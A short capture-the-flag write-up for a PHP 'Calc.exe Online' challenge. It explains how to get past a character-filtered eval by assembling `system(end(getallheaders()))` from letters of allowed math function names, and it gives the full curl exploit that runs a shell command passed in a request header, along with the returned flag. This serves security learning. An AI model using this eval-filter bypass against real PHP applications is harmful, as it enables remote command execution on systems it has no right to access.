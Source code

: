 # Calc.exe Online (Web)
This is a typical PHP pain challenge. Our input can consist of any characters in `_abcdefghijklmnopqrstuvwxyz0123456789.!^&|+-*/%()[],`, and the result is eval'd once. The trick is any letters must match an allowed function name, which are just safe math functions.

Fortunately for us, PHP is a hell of a language and function names that aren't called are treated as constant strings. Not only that, we can call functions using a string containing its name like any other function.

We just need to use letters from the names of allowed functions to construct the function names we want. I decided to assemble `system(end(getallheaders())` to easily pass in shell commands.

```
> curl -g "http://chall.ctf.bamboofox.tw:13377/?expression=(asin[1].hypot[1].asin[1].atan[1].ceil[1].fmod[1])((exp[0].min[2].fmod[3])((log[2].exp[0].tan[0].abs[0].log[0].log[0].cosh[3].exp[0].abs[0].fmod[3].exp[0].ncr[2].abs[2])()))" -H "zzz: ls -la /"
flag{d0_y0u_kn0w_th1s_15_a_rea1_w0rld_cha11enge}
```
